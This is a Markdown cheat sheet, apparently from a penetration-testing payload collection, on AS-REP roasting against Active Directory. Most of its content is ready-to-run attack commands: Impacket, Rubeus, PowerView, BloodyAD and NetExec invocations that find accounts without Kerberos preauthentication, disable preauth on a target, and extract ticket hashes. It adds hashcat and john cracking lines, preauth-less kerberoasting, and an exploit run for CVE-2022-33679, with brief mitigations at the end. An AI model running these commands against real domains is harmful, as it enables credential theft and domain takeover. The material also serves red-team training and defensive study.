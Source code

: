 # Roasting - ASREP Roasting

> If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting

## Requirements:

### Accounts with the attribute 'DONT_REQ_PREAUTH'
### Linux:
* BloodyAD
    ```bash
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  
    ```
* Impacket
    ```bash
    Impacket-GetNPusers inlanefreight.local/<username>
    ```
### Windows:
* Powerview

    Get-DomainUser -UACFilter DONT_REQ_PREAUTH
    PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
    
* Rubeus:
    
    Rubeus.exe asreproast /format:hashcat
    
### Set DON'T_REQ-PREAUTH using Powerview
> Useful if you have generic all over an account and don't want to reset the password   
    
    Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose

## ASREP Roast from Windows
### [Rubeus](https://github.com/GhostPack/Rubeus)

  ```powershell
  C:\Rubeus>Rubeus.exe asreproast /user:TestOU3user /domain:<domain /dc:<dc fQDN> format:hashcat /nowrap /outfile:hashes.asreproast
  [*] Action: AS-REP roasting
  [*] Target User            : TestOU3user
  [*] Target Domain          : testlab.local
  [*] SamAccountName         : TestOU3user
  [*] DistinguishedName      : CN=TestOU3user,OU=TestOU3,OU=TestOU2,OU=TestOU1,DC=testlab,DC=local
  [*] Using domain controller: testlab.local (192.168.52.100)
  [*] Building AS-REQ (w/o preauth) for: 'testlab.local\TestOU3user'
  [*] Connecting to 192.168.52.100:88
  [*] Sent 169 bytes
  [*] Received 1437 bytes
  [+] AS-REQ w/o preauth successful!
  [*] AS-REP hash:

  $krb5asrep$TestOU3user@testlab.local:858B6F645D9F9B57210292E5711E0...(snip)...
  ```
## ASREP Roast from Linux
### [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) from Impacket Suite

  ```bash
  # Credentials
  Impacket-GetNPUsers <domain>/<user> -request

  # Uncredentialed
  Impacket-GetNPUsers <domain>/ -dc-ip <DC IP> -usersfile <list_of_users.txt> -format hashcat -outputfile <outfilfe> -no-pass # list of users
  Impacket-GetNPUsers htb.local/svc-alfresco -no-pass # single user


  # extract hashes
  Impacket-GetNPUsers jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
  Impacket-GetNPUsers jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
  ```

### NetExec Module

  ```bash
  $ netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asreproast output.txt
  LDAP        10.0.2.11       389    dc01           $krb5asrep$23$john.doe@LAB.LOCAL:5d1f750[...]2a6270d7$096fc87726c64e545acd4687faf780[...]13ea567d5
  ```

## Using hashcat or john to crack the ticket.

```bash
# Linux
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
# Windows
hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt

# crack AS_REP messages with john (Windows)
john --format=krb5asrep --wordlist=passwords_kerb.txt hashes.asreproast
```

**Mitigations**:

* All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).

## Kerberoasting w/o domain account

> In September 2022 a vulnerability was discovered by [Charlie Clark](https://exploit.ph/), ST (Service Tickets) can be obtained through KRB_AS_REQ request without having to control any Active Directory account. If a principal can authenticate without pre-authentication (like AS-REP Roasting attack), it is possible to use it to launch an **KRB_AS_REQ** request and trick the request to ask for a **ST** instead of a **encrypted TGT**, by modifying the **sname** attribute in the req-body part of the request.

The technique is fully explained in this article: [Semperis blog post](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/).

:warning: You must provide a list of users because we don't have a valid account to query the LDAP using this technique.

* [impacket/GetUserSPNs.py from PR #1413](https://github.com/fortra/impacket/pull/1413)

  ```powershell
  GetUserSPNs.py -no-preauth "NO_PREAUTH_USER" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
  ```

* [GhostPack/Rubeus from PR #139](https://github.com/GhostPack/Rubeus/pull/139)

  ```powershell
  Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"domain.local" /dc:"dc.domain.local" /nopreauth:"NO_PREAUTH_USER" /spn:"TARGET_SERVICE"
  ```

## CVE-2022-33679

> CVE-2022-33679 performs an encryption downgrade attack by forcing the KDC to use the RC4-MD4 algorithm and then brute forcing the session key from the AS-REP using a known plaintext attack, Similar to AS-REP Roasting, it works against accounts that have pre-authentication disabled and the attack is unauthenticated meaning we don’t need a client’s password..

Research from Project Zero : [RC4 Is Still Considered Harmful - James Forshaw](https://googleprojectzero.blogspot.com/2022/10/rc4-is-still-considered-harmful.html)

**Requirements**:

Accounts with the attribute **DONT_REQ_PREAUTH**

* Windows/Linux:

    ```ps1
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  
    ```

* Windows only:

    ```ps1
    PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
    ```

**Exploitation**:

* Using [CVE-2022-33679.py](https://github.com/Bdenneu/CVE-2022-33679)

  ```bash
  user@hostname:~$ python CVE-2022-33679.py DOMAIN.LOCAL/User DC01.DOMAIN.LOCAL
  user@hostname:~$ export KRB5CCNAME=/home/project/User.ccache
  user@hostname:~$ netexec smb DC01.DOMAIN.LOCAL -k --shares
  ```

**Mitigations**:

* All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).
* Disable RC4 cipher if possible.

## References

* [Roasting AS-REPs - January 17, 2017 - harmj0y](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
* [Kerberosity Killed the Domain: An Offensive Kerberos Overview - Ryan Hausknecht - Mar 10](https://posts.specterops.io/kerberosity-killed-the-domain-an-offensive-kerberos-overview-eb04b1402c61)
